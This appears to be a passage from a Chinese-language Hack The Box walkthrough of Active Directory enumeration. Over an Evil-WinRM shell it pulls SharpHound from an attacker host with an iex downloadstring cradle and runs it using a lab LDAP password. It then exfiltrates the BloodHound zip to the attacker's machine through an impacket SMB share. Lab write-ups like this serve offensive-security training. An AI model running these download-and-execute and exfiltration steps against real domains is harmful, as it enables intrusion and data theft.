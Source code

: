 ## bloodhound

run [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) to collect data for [BloodHound](https://github.com/BloodHoundAD/BloodHound)

开启 80 http服务

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.16.5/SharpHound.ps1")

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

但是我失败了没生成 zip

尝试

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> upload SharpHound.exe
```

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> ./SharpHound.exe
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> ls


    Directory: C:\Users\svc-alfresco\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/12/2023  11:14 PM          18601 20230912231407_BloodHound.zip
-a----        9/12/2023  11:14 PM          19538 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        9/12/2023  11:12 PM        1046528 SharpHound.exe
```

在 kali 里开启 smb 来 从 靶机 传输 zip 到 kali

```bash
└─# /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username zf1yolo -password zf1yolo
```

靶机传输 copy

```
net use \\10.10.16.5\share /u:zf1yolo zf1yolo
copy 20230912231407_BloodHound.zip \\10.10.16.5\share\
del 20230912231407_BloodHound.zip
net use /d \\10.10.16.5\share
```



载入分析：

